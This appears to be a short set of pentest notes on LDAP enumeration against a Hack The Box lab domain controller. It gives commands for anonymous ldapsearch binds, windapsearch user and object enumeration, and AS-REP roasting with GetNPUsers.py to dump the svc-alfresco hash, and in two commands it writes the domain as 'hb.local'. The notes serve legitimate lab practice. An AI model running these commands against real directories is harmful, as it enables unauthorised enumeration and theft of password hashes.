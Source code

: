 # LDAP



Check anonymous binds

> The flag -x is used to specify anonymous authentication
>
> The flag -b denotes the basedn to start from

```
ldapsearch -h 10.10.10.161 -p 389 -x -b "dc=htb,dc=local"
```

Query the domain

> The flag -U is used to enumerate all users

```
python windapsearch.py -d hb.local --dc-ip 10.10.10.161 -U
```

Enumerate all others objects in the domain using the objectClass=\*

```
python windapsearch.py -d hb.local --dc-ip 10.10.10.161 --custom "objectClass=*"
```

Request TGT ticket and dump the hash

```
GetNPUsers.py htb.local/svc-alfresco -dc-ip 10.10.10.161 -no-pass
```



